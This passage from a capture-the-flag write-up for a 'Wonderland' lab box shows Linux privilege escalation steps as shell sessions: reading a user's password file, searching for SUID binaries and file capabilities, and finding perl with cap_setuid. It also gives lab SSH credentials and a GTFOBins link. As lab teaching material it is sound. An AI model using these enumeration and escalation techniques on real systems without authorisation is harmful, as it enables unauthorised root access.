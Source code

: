 Upgrade shell, move to /home/hatter

```shell
$ bash
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -lah
total 28K
drwxr-x--- 3 hatter hatter 4.0K May 25 22:56 .
drwxr-xr-x 6 root   root   4.0K May 25 17:52 ..
lrwxrwxrwx 1 root   root      9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25 02:58 .bash_logout
-rw-r--r-- 1 hatter hatter 3.7K May 25 02:58 .bashrc
drwxrwxr-x 3 hatter hatter 4.0K May 25 03:42 .local
-rw-r--r-- 1 hatter hatter  807 May 25 02:58 .profile
-rw------- 1 hatter hatter   29 May 25 22:56 password.txt
```

Get hatter password

```shell
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

Hatter cannot run as root 
```shell
hatter@wonderland:/home/hatter$ sudo -l 
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

Searched for files with root SUID.

```shell
hatter@wonderland:/home/hatter$ find / -type f -perm /4000 2>/dev/null
/home/rabbit/teaParty
```

Search for capabilities. Perl has capability to set UID. This could be exploited to set UID to root UID (0).

```shell
hatter@wonderland:/$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

At this point, we need to switch from the many shells in shells as it causes /usr/bin/perl to break.

Exit out of all shells, and SSH into to box as `hatter`.

Credentials: 
```
hatter:WhyIsARavenLikeAWritingDesk?
```

```
ssh hatter@10.10.160.113
```
No we can use Perl GTFOBin through capabilities: 
https://gtfobins.github.io/gtfobins/perl/#capabilities
